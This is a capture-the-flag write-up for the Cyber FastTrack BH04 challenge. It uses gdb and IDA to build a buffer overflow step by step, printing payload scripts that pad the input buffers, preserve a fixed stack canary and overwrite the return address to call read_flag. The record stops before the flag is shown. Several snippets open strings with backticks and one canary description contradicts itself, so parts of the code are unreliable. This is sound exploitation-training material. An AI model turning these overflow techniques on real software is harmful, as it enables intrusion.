

# Cyber FastTrack Spring 2020- BH04 Solution
In this challenge, we use buffer overflow to display the flag.\
BH04_1.PNG\

* This is the challenge for BH04. Take a look at the [BM02 Solution](https://github.com/koc777/CyberFastTrack_Spring2020/tree/main/BM02) for more info.

IDA-exploitable().PNG\
.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*, char const*, char const*) function and the read_flag(void) function. In this challenge, the exploitable function takes all the inputs. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.
* If we look through the program, we know that we must enter `add_candidate` in order to add employee and use the exploitable() function.

BH04_2.PNG\

* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c to stop the program
* Enter `disas exploitable(char const*, char const*, char const*)

BH04_3.PNG\

* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use `0x565563f7`.
* Type `break *0x565563f7`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x565563f7 in exploitable(char const*, char const*, char const*) ()`

BH04_4.PNG\

* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557579`. 

BH04_5.PNG\

* Enter `x/150x $sp` to display the current and the next 149 stack pointer.
* Look at the stack canary value `0xbeef0000` and the return address `0x56557579`.

BH04_6.PNG\

* Let's try to put what we have in BM02.py into BH04.py
* Create a text file, enters the following and save it as a python file.
```python
print("add_candidate")
print('A'*120)
```
* Hold down the Ctrl key and press c to stop the program
* Type `run < <(python bm02.py)` to re-run the program in the debugger.
* Enter `x/150x $sp` to display the current and the next 149 stack pointers
* Look at the stack canary value `0xbeef0000` and the return address `0x56557579`. They are both the same as above.
* We need to changes the return address to `0x5655615d` because we want to execute the read_flag() function. Note: we get `0x5655615d` from `disas read_flag` in the debugger. Remember, we have to write the addresses in reverse byte order.

BH04_7.PNG\

* Notice that: First Name, Last Name, and Job Title, each of them takes 120 bytes of buffer. 
* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120)
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Notice that: we can overwrite First Name buffer and Last Name buffer to 'C' or 43

BH04_8.PNG\

* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\x00\x00\xef\xbe')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Nothing changes

BH04_9.PNG\

* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\x00\x00\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* Nothing changes because `\x00` or 0x00 means it has reached the end of the string because C strings are null-terminated.
 * This means ` 'A'*12 + '\x5d\x61\x55\x56' ` will not get executed.

BH04_10.PNG\

* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*120 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* ` 'A'*12 + '\x5d\x61\x55\x56' ` get executed but something is not working properly.

BH04_11.PNG\

* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*121 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* The stack canary value and the return address isn't correct. The stack canary value should be `0xbeef0000` and the return address should be`0x5655615d`.

BH04_12.PNG\

* Edit the BH04.py file to try something different
```python
print("add_candidate")
print('A'*122 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* The stack canary value isn't correct. The stack canary value should be `0xbeef0000`.
* We seem to be going in the right direction

BH04_13.PNG\

* Edit the BH04.py file to understand the differences of having `\x00` as part of the string.
```python
print("add_candidate")
print('A'*122 + `\x00\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240)
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* ` 'A'*12 + '\x5d\x61\x55\x56' ` would not get executed.

BH04_14.PNG\

* Edit the BH04.py file and see what would happen to the stack pointers.
```python
print("add_candidate")
print('A'*122 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240 + '\x55\x55\x55\x55\x55\x55\x55\x55\x55\x55\x55')
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* We now know where the `\x55` starts from (the arrow), but there is one `\x55` is missing

BH04_15.PNG\

* We change `240` to `241` and see what would happen
```python
print("add_candidate")
print('A'*122 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*241 + '\x55\x55\x55\x55\x55\x55\x55\x55\x55\x55\x55')
print('C'*360)
```
* Re-run the program and display the current and the next 149 stack pointers
* This missing `\x55` is now here and displayed


BH04_16.PNG\

* We change the first `\x55` to `\x00` to make the stack canary value from `0xbeef0000` to `0xbeef0000`
* At the same time, we would like to see where the first `\x55` starts from.
```python
print("add_candidate")
print('A'*122 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240 + '\x00')
print('C'*360 + '\x55\x55\x55\x55')
```
* Re-run the program and display the current and the next 149 stack pointers. 
* We change the first `\x55` to `\x00` to make the stack canary value from `0xbeef4100` to `0xbeef0000`. However, we want to see where the first `\x55` starts from so we overwrite the `0xbeef0000`.
* We now know where the `\x55` starts from (the arrow).

BH04_17.PNG\

* We already changed the first `\x41` to `\x00` to make the stack canary value from `0xbeef4100` to `0xbeef0000`.
* Now, we need to change the last two digit of this address to `00`.
```python
print("add_candidate")
print('A'*122 + `\xef\xbe' + 'A'*12 + '\x5d\x61\x55\x56')
print('B'*240 + '\x00')
print('C'*360 + '\x00')
```
* Re-run the program and display the current and the next 149 stack pointers.
* It doesn't seems like nothing changes because the last two hex value is already `00`.


	
